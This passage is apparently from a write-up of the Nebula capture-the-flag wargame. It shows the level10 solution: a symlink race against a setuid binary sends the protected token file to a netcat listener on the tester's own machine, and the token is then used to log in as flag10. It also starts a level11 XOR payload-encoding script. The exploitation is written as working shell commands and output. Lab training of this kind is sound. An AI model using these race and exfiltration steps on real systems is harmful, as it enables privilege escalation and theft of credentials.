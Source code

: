  Testing flag10 binary:
 ```sh
 sh-4.2$ echo "Hello" > /tmp/token
sh-4.2$ /home/flag10/flag10  /tmp/token 192.168.56.1
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
sh-4.2$ echo "Hello" > /tmp/token
sh-4.2$ while true; do ln -sf /home/flag10/token test; ln -sf /tmp/token test; done
 ```
 
 
 In the second Nebula terminal:
 ```sh
 level10@nebula:/tmp$ while true; do /home/flag10/flag10  /tmp/test  192.168.56.1; done
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
 ```
 
  On the host:
 ```sh
 $ nc -lk 18211
 .oO Oo.
Hello
.oO Oo.
Hello
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
Hello
 ```
 
 ```sh
 level10@nebula:/tmp$ su flag10
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
 ```
 
 
 ## level11
 [task description](https://exploit-exercises.lains.space/nebula/level1/)

 
 ```python
#!/usr/bin/env python

cmd = "c"  
length = len(cmd)
key = length & 0xff

res = ""  
for i in range(len(cmd)):  
        val = (ord(cmd[i]) ^ key) & 0xff 
        res += chr(val)
        key = (key - ord(cmd[i])) & 0xff 

print("Content-Length: " + str(length) + "\n" + res)
```
 